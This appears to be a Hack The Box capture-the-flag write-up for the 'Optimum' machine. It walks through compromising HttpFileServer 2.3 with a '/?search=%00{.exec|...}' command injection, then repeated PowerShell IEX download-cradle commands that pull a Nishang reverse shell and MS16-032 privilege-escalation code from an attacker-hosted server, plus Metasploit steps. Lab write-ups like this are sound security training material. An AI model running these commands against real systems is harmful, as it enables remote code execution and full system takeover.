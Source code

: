 ```yaml
---
"title": "Hack The Box - Optimum"
"date": 2020-02-26
"tags": ["windows", "easy", "sherlock", "empire", "rce", "nishang"]
"keywords": ["windows", "easy", "sherlock", "empire", "rce", "nishang"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Optimum from Hack The Box."
"featured_image": "/img/htb-optimum/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/6](https://www.hackthebox.eu/home/machines/profile/6)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP Enumeration

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![Untitled](/img/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![Untitled](/img/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using `/?search=%00{.exec|cmd.}` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.[br/](br/)
![Untitled](/img/htb-optimum/4.png)[br/](br/)
This not only load the module but also the shell give me a callback.

## Getting User Shell

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.[br/](br/)
![Untitled](/img/htb-optimum/5.png)[br/](br/)

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```
/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}
```

With URL encoded I passed it to burp.[br/](br/)
![Untitled](/img/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.[br/](br/)
![Untitled](/img/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![Untitled](/img/htb-optimum/8.png)

## Privilege Escalation

Once I got a shell the first thing I check is ``systeminfo``

![Untitled](/img/htb-optimum/20.png)[br/](br/)
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

`Sherlock.ps1`

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.[br/](br/)
![Untitled](/img/htb-optimum/9.png)[br/](br/)
![Untitled](/img/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.[br/](br/)
![Untitled](/img/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![Untitled](/img/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``[br/](br/)
![Untitled](/img/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![Untitled](/img/htb-optimum/14.png)

We are System!!

## Method II (Using Metasploit)

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT[br/](br/)
![Untitled](/img/htb-optimum/15.png)

![Untitled](/img/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``[br/](br/)
![Untitled](/img/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![Untitled](/img/htb-optimum/18.png)[br/](br/)
![Untitled](/img/htb-optimum/19.png)

We got authority\system !! 